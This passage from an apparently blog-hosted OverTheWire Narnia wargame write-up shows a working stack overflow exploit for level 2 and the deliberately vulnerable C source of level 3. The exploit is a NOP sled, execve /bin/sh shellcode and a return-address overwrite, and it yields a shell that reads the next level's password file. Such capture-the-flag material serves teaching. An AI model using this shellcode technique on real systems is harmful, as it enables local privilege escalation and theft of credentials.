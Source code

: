 We see our payload start at `0xffffd828` with the last 4 bytes at `0xffffd8b4`

The buffer gives us 128 bytes to play with. Our shellcode is 25 bytes, so we'll pad the
start with a [nop sled](https://en.wikipedia.org/wiki/NOP_slide) to adjust for
the memory offset introduced by `gdb`. Then set the `EIP` to somewhere in the middle
of the sled

{% highlight  console %}
narnia2@melinda:/narnia$ ./narnia2 `python -c "print '\x90'*115 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x60\xd8\xff\xff'"`
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
[password]
{% endhighlight %}

## Level 03 ##

{% highlight c linenos %}
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h> 

int main(int argc, char **argv){
 
        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];
 
        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }
 
        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }
 
        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
 
        /* close 'em */
        close(ifd);
        close(ofd);
 
        exit(1);
}

{% endhighlight %}
